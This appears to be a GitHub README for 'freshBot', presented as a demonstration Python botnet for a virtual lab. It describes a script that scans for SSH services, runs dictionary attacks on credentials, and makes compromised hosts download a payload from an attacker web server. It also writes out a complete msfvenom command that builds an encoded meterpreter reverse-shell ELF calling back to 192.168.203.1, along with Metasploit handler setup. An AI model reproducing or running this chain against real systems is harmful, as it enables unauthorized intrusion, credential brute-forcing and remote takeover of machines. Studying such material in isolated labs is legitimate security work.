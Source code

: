# freshBot
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" scans virtual network, if it finds a node with ssh service<br>
running it performs a dictionary attack on it. Once, correct credentials are<br>
provided, 1st payload executes and directs target to download an "evil_file"<br>
from our web server.
<br>
<h1>The Environment Setup</h1><br>
<br>
1. Our Attack machine: **Linux kali 4.16.0-kali2-amd64**<br>
2. Our Web Server: **192.168.203.1/evil_file**<br>
3. **4** * **ubuntu-16.04.5-desktop-amd64** in the same virtual network.<br>
4. Python - paramiko module.<br>
5. msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file<br>
6. msf5 > exploit/multi/handler module<br>
7. scan_drop.py - Scans, Dictionary Attack, send 1st stage payload, RCE.<br>

